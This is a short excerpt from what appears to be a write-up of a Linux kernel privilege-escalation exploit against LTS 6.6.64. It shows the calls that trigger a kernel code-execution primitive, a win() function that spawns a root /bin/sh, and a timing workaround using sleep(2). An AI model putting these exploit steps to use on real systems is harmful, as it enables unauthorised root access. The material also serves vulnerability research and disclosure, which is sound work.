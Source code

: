 - Trigger kernel code execution
[[exploit.c#L1790]](../exploit/lts-6.6.64/exploit.c#L1790)
```c
code_execution_primitive_setup_network_interface(&code_execution_primitive);
code_execution_primitive_build_primitive(&code_execution_primitive);
code_execution_primitive_trigger(&code_execution_primitive);
```

- Kernel return to `win()`
[[exploit.c#L1586]](../exploit/lts-6.6.64/exploit.c#L1586)
```c
void win(void)
{
	sleep(2);
	static char *sh_args[] = {"sh", NULL};
	execve("/bin/sh", sh_args, NULL);
}
```
- There seem to be some kind of local softirq work on the way, so call `execve` instantly sometime fail to get shell. (not sure)
- Workaround by perform `sleep(2)` seem to work.

